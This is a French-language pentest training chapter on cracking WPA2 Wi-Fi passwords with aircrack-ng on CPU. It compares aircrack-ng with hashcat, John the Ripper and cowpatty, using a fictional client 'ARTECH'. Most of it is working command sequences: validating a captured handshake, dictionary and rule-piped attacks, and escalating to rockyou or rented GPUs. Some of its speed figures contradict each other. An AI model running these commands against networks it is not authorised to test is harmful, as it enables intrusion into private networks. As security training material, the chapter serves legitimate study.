

# 5.7 aircrack-ng en mode CPU

!!! quote "L'analogie du couteau suisse face à la perceuse industrielle"

    Un menuisier amateur a deux outils dans son atelier. Une perceuse industrielle puissante mais bruyante, qui demande du temps de mise en place et de l'électricité. Un couteau suisse multifonction qui tient dans la poche. Pour percer une dizaine de trous dans un meuble Ikea, le couteau suisse suffit. Pour reconstruire toute une charpente, la perceuse industrielle est indispensable. aircrack-ng est ce couteau suisse du Wi-Fi. Il fait tout : capture, validation, cracking, deauth. Mais pour le cracking massif, hashcat sur GPU est la perceuse. aircrack-ng reste précieux pour valider rapidement une capture, tester un petit dictionnaire, ou opérer dans des contextes sans GPU. Ce chapitre vous donne le bon réflexe : utiliser le bon outil pour la bonne tâche.

## Métadonnées du chapitre

Ce chapitre est court mais essentiel pour comprendre les complémentarités. Voici ses caractéristiques.

| Champ | Valeur |
|---|---|
| Durée estimée | 2 heures |
| Niveau | Pratique |
| Prérequis | 5.4 (handshake), 5.5 (dictionnaires) |
| Livrables | Validation handshake et test dico avec aircrack-ng |
| Auto-explication | 6 minutes |

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Identifier quand utiliser aircrack-ng plutôt que hashcat
- Lancer une attaque par dictionnaire en mode CPU
- Valider rapidement la qualité d'un handshake
- Estimer les performances CPU réalistes
- Articuler aircrack-ng et hashcat dans un workflow

---

## 1. aircrack-ng vs hashcat - quand utiliser quoi

### 1.1 Comparaison globale

Voici la comparaison entre les deux outils.

| Aspect | aircrack-ng | hashcat |
|---|---|---|
| Type | CPU (et FPGA marginal) | GPU principalement |
| Vitesse PSK/sec | 8 000 (CPU i9) | 1.8M (RTX 4090) |
| Multiplicateur | 1× | ~225× |
| Format input | .cap (PCAP brut) | .22000 (converti) |
| Format wordlist | TXT | TXT, hashcat-stdin |
| Règles mutations | Limitées | Très complètes |
| Modes d'attaque | Dictionnaire surtout | Dico, mask, hybride, combinator |
| Maturité | Excellente | Excellente |
| Licence | GPL | MIT |
| Difficulté | Faible | Moyenne |
| Idéal pour | Validation rapide, lab sans GPU | Cracking sérieux |

### 1.2 Cas d'usage aircrack-ng

Voici les situations où aircrack-ng est préférable.

| Situation | Pourquoi aircrack-ng |
|---|---|
| Pas de GPU disponible | hashcat sur CPU est lent aussi mais aircrack-ng plus simple |
| Validation handshake | Confirmer rapidement que la capture est valide |
| Petit dictionnaire ciblé | < 100k entrées, gain hashcat marginal |
| Lab d'apprentissage | Plus pédagogique, sortie verbeuse |
| Pas de conversion 22000 | Travaille directement sur .cap |
| Workflow intégré | Suite avec airodump, aireplay |

### 1.3 Cas d'usage hashcat

Voici les situations où hashcat est obligatoire.

| Situation | Pourquoi hashcat |
|---|---|
| Dictionnaire massif (rockyou+) | aircrack-ng prendrait des heures |
| Règles complexes | aircrack-ng très limité |
| Mask attack | aircrack-ng ne supporte pas |
| GPU disponible | Gain de 200-300× justifié |
| Production / pentest sérieux | Standard de l'industrie |

## 2. Installation et préparation

### 2.1 Installation

aircrack-ng est dans les distributions standards et inclus dans Kali.

```bash
# Vérification version
aircrack-ng --help | head -5

# Mise à jour
sudo apt update
sudo apt install aircrack-ng -y

# Version souhaitée 1.7 ou +
aircrack-ng --help | head -1
```

### 2.2 Préparation des données

aircrack-ng travaille directement sur le fichier .cap (pas de conversion nécessaire).

```bash
cd ~/pentest/artech-2026/handshake/

# Vérification que le handshake est dans le .cap
aircrack-ng artech-handshake-01.cap

# Sortie typique
# Reading packets, please wait...
# Opening artech-handshake-01.cap
# Read 142 packets.
#
#    #  BSSID              ESSID                     Encryption
#    1  64:70:02:XX:XX:XX  ARTECH-WIFI               WPA (1 handshake)
#
# Choosing first network as target.
# Read 142 packets.
#
#    #  BSSID              ESSID                     Encryption
#    1  64:70:02:XX:XX:XX  ARTECH-WIFI               WPA (1 handshake)
```

La mention `WPA (1 handshake)` confirme la disponibilité du handshake.

## 3. Cracking avec dictionnaire

### 3.1 Syntaxe de base

Voici la syntaxe d'aircrack-ng pour cracker un PSK.

```bash
aircrack-ng -w WORDLIST -b BSSID CAPTURE_FILE
```

### 3.2 Commande type ARTECH

Voici la commande pour cracker ARTECH avec votre dictionnaire ciblé.

```bash
# Avec dictionnaire ARTECH ciblé
aircrack-ng \
    -w ../dictionaries/artech-dictionary.txt \
    -b 64:70:02:XX:XX:XX \
    artech-handshake-01.cap

# Sortie typique succès
#                                Aircrack-ng 1.7
#
#  [00:00:01] 12345/100000 keys tested (8024.3 k/s)
#
#  Time left: 10 seconds                                          12.35%
#
#                            KEY FOUND! [ ArtechMedical2020! ]
#
#       Master Key       : 8E 2A 4F ...
#       Transient Key    : ...
#       EAPOL HMAC       : ...
```

### 3.3 Sans BSSID

Si vous ne précisez pas le BSSID, aircrack-ng demande de choisir parmi les AP.

```bash
# Sans -b
aircrack-ng -w dico.txt artech-handshake-01.cap

# Sortie demande
#    #  BSSID              ESSID                     Encryption
#    1  64:70:02:XX:XX:XX  ARTECH-WIFI               WPA (1 handshake)
#
# Index number of target network ?
# (Saisir 1)
```

### 3.4 Options principales

Voici les options utiles d'aircrack-ng.

| Option | Description |
|---|---|
| `-w` | Fichier wordlist |
| `-b` | BSSID cible |
| `-e` | ESSID cible (alternatif à BSSID) |
| `-q` | Mode silencieux (pas d'affichage progression) |
| `-l` | Fichier de sortie pour la clé |
| `-N` | Mode test du handshake (sans cracking) |
| `-S` | Benchmark vitesse |

### 3.5 Benchmark CPU

Pour estimer la vitesse de votre CPU.

```bash
# Benchmark
aircrack-ng -S

# Sortie typique Intel i9-13900K
#         8024 k/s
# Soit 8 millions de PSK testés par seconde
```

Note : ce benchmark est optimiste car il ne fait pas le PBKDF2 complet.

## 4. Performances CPU réalistes

### 4.1 Vitesses typiques 2026

Voici les vitesses réelles en cracking WPA2 sur CPU.

| CPU | PSK/sec réels |
|---|---|
| Intel i5-10400 (6 cœurs) | 800 |
| Intel i7-12700K (16 cœurs) | 4 000 |
| Intel i9-13900K (24 cœurs) | 8 000 |
| AMD Ryzen 9 7950X (16 cœurs) | 9 000 |
| Apple M1 Pro (10 cœurs) | 5 500 |
| Apple M2 Max (12 cœurs) | 7 500 |

### 4.2 Comparaison avec GPU

Voici l'écart pratique avec GPU sur le même budget.

| Hardware | Coût | PSK/sec | Ratio |
|---|---|---|---|
| Intel i5-10400 | 200 € | 800 | 1× |
| GTX 1060 | 200 € | 100 000 | 125× |
| Intel i9-13900K | 600 € | 8 000 | 10× |
| RTX 3060 | 350 € | 485 000 | 600× |
| RTX 4090 | 1 800 € | 1 800 000 | 2 250× |

L'efficacité GPU est **dramatique**. Sauf cas spéciaux, hashcat GPU est toujours préférable.

### 4.3 Estimation pour ARTECH

Pour ARTECH avec dictionnaire ciblé (100k entrées) :

| Configuration | Temps |
|---|---|
| aircrack-ng i5-10400 | 2 minutes |
| aircrack-ng i9-13900K | 12 secondes |
| hashcat RTX 3060 | < 1 seconde |

Pour rockyou complet (14M entrées) avec règles best64 :

| Configuration | Temps |
|---|---|
| aircrack-ng i5-10400 | ~10 jours |
| aircrack-ng i9-13900K | ~28 heures |
| hashcat RTX 3060 | ~30 minutes |

## 5. Workflow combiné

### 5.1 Stratégie hybride

La meilleure pratique est de **combiner** les deux outils.



### 5.2 Validation rapide d'abord

Voici le workflow pratique.

```bash
# 1. Validation (instantané)
aircrack-ng artech-handshake-01.cap | grep "1 handshake"

# 2a. Si GPU : conversion et hashcat
hcxpcapngtool -o artech.22000 artech-handshake-01.cap
hashcat -m 22000 -a 0 artech.22000 ../dictionaries/artech-dictionary.txt

# 2b. Si pas GPU : aircrack-ng directement
aircrack-ng -w ../dictionaries/artech-dictionary.txt \
    -b 64:70:02:XX:XX:XX \
    artech-handshake-01.cap
```

## 6. Génération de wordlists pipée vers aircrack-ng

aircrack-ng accepte les wordlists via stdin avec `-`.

### 6.1 Pipe depuis crunch

Voici comment utiliser crunch sans fichier intermédiaire.

```bash
# crunch génère, aircrack-ng consomme
crunch 8 8 0123456789 | aircrack-ng -w - \
    -b 64:70:02:XX:XX:XX \
    artech-handshake-01.cap
```

### 6.2 Pipe depuis hashcat (génération sans cracking)

hashcat peut générer des candidats sans cracker.

```bash
# Génération via hashcat avec règles
hashcat --stdout artech-base.txt \
    -r /usr/share/hashcat/rules/best64.rule \
    | aircrack-ng -w - -b 64:70:02:XX:XX:XX artech-handshake-01.cap
```

### 6.3 Pipe avec pré-traitement

Vous pouvez injecter du pré-traitement.

```bash
# Tri + dédup + filtre longueur valide WPA2 + cracking
cat dico.txt \
    | sort -u \
    | grep -E "^.{8,63}$" \
    | aircrack-ng -w - \
        -b 64:70:02:XX:XX:XX \
        artech-handshake-01.cap
```

## 7. cowpatty - alternative historique

`cowpatty` est un autre cracker WPA2 historique. Moins utilisé qu'aircrack-ng aujourd'hui.

### 7.1 Particularités

```text
COWPATTY
==========

Caractéristiques :
  - Plus ancien (2004)
  - Maintenance limitée
  - Performances similaires aircrack-ng
  - Support des hashes pré-calculés (Pyrit-style)

À garder en tête mais peu utilisé en 2026.
```

### 7.2 Tables PMK pré-calculées

cowpatty supporte les **tables PMK** pré-calculées par SSID. Avec une table pour `ARTECH-WIFI`, le cracking se réduit à de simples lookups.

```text
TABLES PMK PRÉ-CALCULÉES
==========================

Pour un SSID donné, on calcule à l'avance :
  PMK = PBKDF2(PSK_candidate, SSID, 4096, 256)

Pour 14M PSK candidats × SSID = 14M PMK à stocker
Taille typique : ~500 Mo par SSID

Utilité :
  - Si vous attaquez plusieurs réseaux avec le
    MÊME SSID (ex. "Livebox-XXXX" est commun)
  - Tables réutilisables sur dumps multiples

Limites :
  - SSID unique = pas réutilisable
  - 1 table = 1 SSID
  - Stockage massif

Pour ARTECH : pas pertinent (SSID unique)
```

## 8. JTR (John the Ripper) - alternative

`john` (John the Ripper) est aussi capable de cracker WPA2.

### 8.1 Avantages JTR

```text
JOHN THE RIPPER POUR WPA2
============================

Avantages :
  - Multi-format (>200 hashes supportés)
  - Mode incrémental sophistiqué
  - Communauté très active
  - Règles puissantes

Format requis :
  Conversion .cap → .hccap (legacy) ou .22000

Performances :
  CPU : similaires aircrack-ng
  GPU (Jumbo edition) : moins optimisé que hashcat

Conclusion :
  Pour WPA2, hashcat est généralement préféré.
  JTR utile pour autres formats (NTLM, SHA, etc.)
```

### 8.2 Cracking WPA2 avec JTR

Pour référence, voici la commande JTR.

```bash
# Conversion .cap → .hccap (legacy)
wpaclean cleaned.cap artech-handshake-01.cap
aircrack-ng -J converted cleaned.cap

# Cracking avec JTR
john --format=wpapsk --wordlist=dico.txt converted.hccap

# Résultat
john --show converted.hccap
```

## 9. Cas pratique - aircrack-ng pour ARTECH

### 9.1 Scénario

Vous validez la capture du chapitre 5.4 et lancez un cracking rapide avec dictionnaire ciblé.

### 9.2 Workflow complet

Voici la séquence à exécuter.

```bash
cd ~/pentest/artech-2026/handshake/

# Étape 1 - Validation handshake
aircrack-ng artech-handshake-01.cap | grep "handshake"

# Sortie attendue :
# 1  64:70:02:XX:XX:XX  ARTECH-WIFI       WPA (1 handshake)

# Étape 2 - Cracking avec dictionnaire ARTECH
time aircrack-ng \
    -w ../dictionaries/artech-dictionary.txt \
    -b 64:70:02:XX:XX:XX \
    -l psk-found.txt \
    artech-handshake-01.cap

# Étape 3 - Vérification du résultat
cat psk-found.txt
# Doit contenir : ArtechMedical2020!

# Étape 4 - Documentation forensic
sha256sum artech-handshake-01.cap psk-found.txt > MANIFEST-crack.sha256
echo "$(date -u +%Y-%m-%dT%H:%M:%SZ) - PSK ARTECH cracké via aircrack-ng" \
    >> ~/pentest/artech-2026/journal.md
```

### 9.3 Si dictionnaire ciblé échoue

Si le dictionnaire ARTECH ciblé ne suffit pas, escalade vers rockyou.

```bash
# Escalade rockyou
aircrack-ng \
    -w /usr/share/wordlists/rockyou.txt \
    -b 64:70:02:XX:XX:XX \
    artech-handshake-01.cap

# Si ce n'est toujours pas trouvé après 30 min :
# - Bascule vers hashcat GPU
# - Ou louer un GPU cloud (AWS spot, Vast.ai)
```

## 10. Génération de PSK candidates avec rules

aircrack-ng peut s'utiliser avec des règles via pipe.

### 10.1 Application de règles via hashcat-stdout

Voici comment appliquer des règles à un dictionnaire et piper.

```bash
# hashcat génère les candidats avec règles, aircrack-ng teste
hashcat --stdout artech-base.txt \
    -r /usr/share/hashcat/rules/best64.rule \
    | aircrack-ng -w - \
        -b 64:70:02:XX:XX:XX \
        artech-handshake-01.cap
```

Cette approche **conserve aircrack-ng** comme moteur de test mais bénéficie des règles hashcat puissantes.

### 10.2 john --rules pour génération

JTR génère aussi des candidats avec règles.

```bash
john --wordlist=base.txt \
     --rules=Wordlist \
     --stdout \
     | aircrack-ng -w - \
        -b 64:70:02:XX:XX:XX \
        artech-handshake-01.cap
```

## 11. Limites et alternatives

### 11.1 Limites d'aircrack-ng

Voici les limitations principales d'aircrack-ng.

| Limitation | Impact |
|---|---|
| CPU only | 200-300× plus lent que GPU |
| Pas de mask attack | Pas d'attaque incrémentale |
| Règles limitées | Doit piper depuis hashcat ou JTR |
| Pas de session save/restore | Doit recommencer si interrompu |
| Format .cap natif | Pas optimisé pour batch |

### 11.2 Alternatives modernes

Voici les alternatives à considérer.

| Outil | Force | Faiblesse |
|---|---|---|
| **hashcat** | GPU rapide, complet | Courbe apprentissage |
| aircrack-ng | Simple, suite intégrée | CPU only |
| john | Multi-format | Performance WPA2 médiocre |
| cowpatty | Tables pré-calc | Maintenance limitée |
| pyrit | GPU historique | Plus maintenu |

### 11.3 Recommandation 2026

```text
RECOMMANDATION OUTIL CRACKING WPA2 EN 2026
=============================================

PRIORITÉ 1 : hashcat (GPU)
  Pour tout cracking sérieux
  Mode 22000 avec règles

PRIORITÉ 2 : aircrack-ng
  Pour validation rapide
  Pour lab sans GPU
  Pour dico ciblé < 100k

PRIORITÉ 3 : autres outils
  Cas spécifiques uniquement
```

## 12. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Outil le plus rapide en 2026 ? | hashcat (GPU) |
| 2 | Vitesse aircrack-ng i9 typique ? | 8 000 PSK/sec |
| 3 | Format input aircrack-ng ? | .cap (PCAP) |
| 4 | Comment piper depuis crunch ? | crunch ... \| aircrack-ng -w - |
| 5 | Comment valider un handshake ? | aircrack-ng file.cap |
| 6 | Option pour BSSID cible ? | -b |
| 7 | Cas d'usage aircrack-ng ? | Lab sans GPU, validation rapide |
| 8 | Multiplicateur GPU vs CPU ? | 200-300× |

## 13. Synthèse

Voici les points clés à retenir.

```text
AIRCRACK-NG MODE CPU

POSITIONNEMENT
  Couteau suisse Wi-Fi (suite complète)
  CPU only, 200× plus lent que hashcat GPU

CAS D'USAGE
  Validation rapide handshake
  Lab d'apprentissage
  Petit dico ciblé (<100k)
  Pas de GPU disponible

SYNTAXE
  aircrack-ng -w dico.txt -b BSSID file.cap
  
  Options :
    -w dico
    -b BSSID
    -e ESSID
    -l output_file
    -q quiet
    -S benchmark

WORKFLOW HYBRIDE
  1. Validation aircrack-ng (instantané)
  2. Si GPU : hcxpcapngtool + hashcat
  3. Sinon : aircrack-ng dico ciblé

PERFORMANCES 2026
  i5-10400 : 800 PSK/sec
  i9-13900K : 8 000 PSK/sec
  M2 Max : 7 500 PSK/sec

PIPE AVEC RULES
  hashcat --stdout base.txt -r rule.rule
    | aircrack-ng -w - -b BSSID file.cap

LIMITES
  CPU only
  Pas de mask attack
  Pas de session save
  Règles limitées

RECOMMANDATION
  hashcat pour cracking sérieux
  aircrack-ng pour validation/lab
```

---

**Chapitre précédent** : [5.6 hashcat et attaque GPU](5-6-hashcat-gpu.md)

**Chapitre suivant** : [5.8 Connexion au réseau cible et reconnaissance interne](5-8-connexion-reseau-cible.md)
